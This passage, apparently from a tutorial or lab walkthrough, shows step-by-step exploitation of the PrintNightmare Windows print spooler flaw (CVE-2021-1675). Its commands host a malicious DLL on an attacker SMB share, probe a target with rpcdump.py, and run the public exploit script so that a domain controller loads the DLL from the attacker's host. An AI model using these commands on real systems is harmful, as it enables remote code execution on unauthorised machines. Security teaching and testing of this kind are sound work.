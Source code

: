 ![jobs](/assets/img/jobs.png)

- The next step is to host the malicious DLL in a SMB share running on our attacker machine. 
We will use `smbserver.py` from impacket to do so.

```bash
smbserver.py share /<your-machine-username>/Desktop/share/ -smb2support
```

![smbserver](/assets/img/smbserver.png)

- Now we will check if our target is vulnerable to the exploit.

```bash
rpcdump.py @<target-ip> | egrep 'MS-RPRN|MS-PAR'
```

![check](/assets/img/check.png)

- Now that we have confirmed that our target is vulnerable to the exploit, we will use the python script inside the 
`CVE-2021-1675` exploit we downloaded earlier,  to exploit the PrintNightmare vulnerability against our target.

```bash
python CVE-2021-1675.py <domain-controller-name>.<domain-name>/<username>:<password>@<target-ip> '\\<your-ip>\share\malicious.dll'
```

